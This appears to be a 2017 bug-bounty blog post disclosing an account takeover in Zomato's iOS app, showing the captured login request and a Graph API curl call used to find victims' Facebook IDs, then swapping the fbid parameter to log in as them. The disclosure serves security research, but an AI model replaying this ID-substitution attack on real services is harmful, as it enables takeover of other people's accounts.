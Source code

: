 ```yaml
---
layout: post
title:  Zomato Account Takeover using Victim's Facebook ID
date:   2017-08-20 16:00:00 +0530
categories: [Mobile Security]
---
```


This was an issue, I reported to Zomato a few months back where an attacker could have compromised any user's account who had linked their Facebook with Zomato. And since most of the people uses Login with Facebook nowadays, I was actually able to gain access to over 1000s of user accounts.

While performing login with Facebook on iOS app, this is the request that was sent to the server:


```sh
POST /v2/auth.json?presentlat=xxxxxxx&useragent=model_iPod%20touch_os_9.3.5v_7.0_t_iPod5,1&app_version=7.0&session_id=41&app_run_id=21&presentlon=xxxxxxxx&lang=en&push_permission=1&isFacebook=true&channel_url=&uuid=█████████ HTTP/1.1
Host: 1api.zomato.com
Accept-Language: en-IN;q=1, nl-IN;q=0.9, it-IN;q=0.8, de-IN;q=0.7, fr-IN;q=0.6
Accept: /
User-Agent: Zomato/6.6.9 (iPod touch; iOS 9.3.5; Scale/2.00)
X-Zomato-API-Key: █████████
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: keep-alive
app_version: 7.0
Cookie: PHPSESSID=██████████; fbcity=1; fbtrack=c9bce885893ad8387ae3dc855d6f5b97; zl=en
Content-Length: 984
Accept-Encoding: gzip

access_token=&client_id=zomato_ios_v2&fb_permission=%5B%22user_friends%22%2C%22email%22%2C%22contact_email%22%2C%22public_profile%22%5D&fb_token=████████&fbdata=%7B%0A%20%20%22link%22%20%3A%20%22https%3A%5C%2F%5C%2Fwww.facebook.com%5C%2Fapp_scoped_user_id%5C%2F█████%5C%2F%22%2C%0A%20%20%22id%22%20%3A%20%22██████████%22%2C%0A%20%20%22first_name%22%20%3A%20%22Bhavuk%22%2C%0A%20%20%22name%22%20%3A%20%22Bhavuk%20Jain%22%2C%0A%20%20%22gender%22%20%3A%20%22male%22%2C%0A%20%20%22last_name%22%20%3A%20%22Jain%22%2C%0A%20%20%22email%22%20%3A%20%22█████████%40yahoo.co.in%22%2C%0A%20%20%22locale%22%20%3A%20%22en_US%22%2C%0A%20%20%22timezone%22%20%3A%205.5%2C%0A%20%20%22updated_time%22%20%3A%20%222016-12-24T21%3A55%3A30%2B0000%22%2C%0A%20%20%22verified%22%20%3A%20true%0A%7D&fbid=█████

```

Looking at it carefully, I found the API was also sending **fbid** in the requested parameters. So I tried to change it with another Facebook ID. But how to find a victim's Facebook ID as they are different for different apps. By using Facebook's Graph API, you can find a list of your friends as well second degree friends who are using Login with Facebook for Zomato. This Graph API request can return your friends Facebook IDs by sending your Facebook generated Acceess Token.

```sh
curl -i -X GET \
"https://graph.facebook.com/v2.10/me/friends?access_token=xxxxxxxx"
```
Now by using this Facebook ID and replacing it in the Zomato's request, it bypassed the login and gave me a complete control over the victim's account. Game Over!

